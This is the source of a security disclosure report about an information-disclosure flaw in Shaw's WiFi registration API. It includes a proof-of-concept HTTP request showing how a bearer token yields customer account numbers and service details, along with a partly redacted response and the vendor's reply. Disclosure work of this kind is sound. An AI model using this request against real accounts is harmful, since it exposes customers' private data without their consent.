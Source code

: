 ```yaml
---
layout: reports
permalink: /reports/6/
tagline: "On 10 August 2018 I discovered an Information Disclosure vulnerability on shaw.com"
image:
  feature: blog/default-feature.jpg
  hero: blog/default-header.jpg
report-id: GW0006
---
```


## Summary

By sending a `GET` request to a specific API location it is possible to obtain a customer's account number in addition to registered device IDs and MAC Addresses of associated Shaw Go Wifi devices.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with that customer or by remotely logging into a @shaw.ca email associated with that customer.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

Request:
```http
GET /api/customer/account/ HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Accept: application/json
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 381
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"account_id":"03161234567","account_status":"active","device_quota":10,"url":"/accounts/03161234567","downlink_speed":"30","uplink_speed":"5","service_code":"830-137","service_type":"Residential","service_description":"INTERNET 150 PLUS","service_status":"active","quota_available":true,"devices":[],"account_number":"03161234567","response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._

## Recommended Actions

 - Implement proper access controls to prevent information disclosure.

## Remediation Status

At the time of publishing this report `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` from an IP associated with the customer now result in the response showing `401 Unauthorized`. However this access token can still be generated by logging in to a @shaw.ca email address associated with that customer.

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since this report.

## Response From Vendor

### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
